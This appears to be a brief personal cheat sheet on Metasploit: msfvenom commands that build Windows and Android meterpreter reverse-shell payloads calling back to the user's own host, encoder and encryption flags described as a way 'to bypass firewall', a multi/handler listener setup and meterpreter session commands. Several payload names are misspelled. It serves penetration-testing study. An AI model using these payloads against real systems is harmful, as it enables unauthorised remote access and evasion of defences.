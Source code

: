 ## msfvenom

### to create payloads
```
msfvenom -l <name>
// to list payloads , exploit etc. just specif name

```

```
msfvenom -p window/meterpreter/shell LHOST=<your_ip> LPORT=<your_port> -f exe -o output.exe

// option R use for raw format payload , like it use in android payload
ex:-

msfvenom -p android/meterpreter/shell LHOST=<your_ip> LPORT=<your_port> R -o output.apk
```
> 
> `--platform` to specfy target platform
> `--encoder`
> `--encrypt` encode or encrypt to bypass firewall

## Listner shell
> listner to listen payload request shell

```
// in msfconsole
use exploit/multi/handler
// this handler run for many type of machines
set <type> <name>
ex:- set paylod window/reverse/shell
// type if like payload etc
// name of pyload or exploit etc
// set port and ip
```

> in msflisner can use many option use help

### meterpreter shell commands

* ### sessions
   `background` make a session in background
   `session` to list all active sessions
   `session -i <id_number>` to open sesssion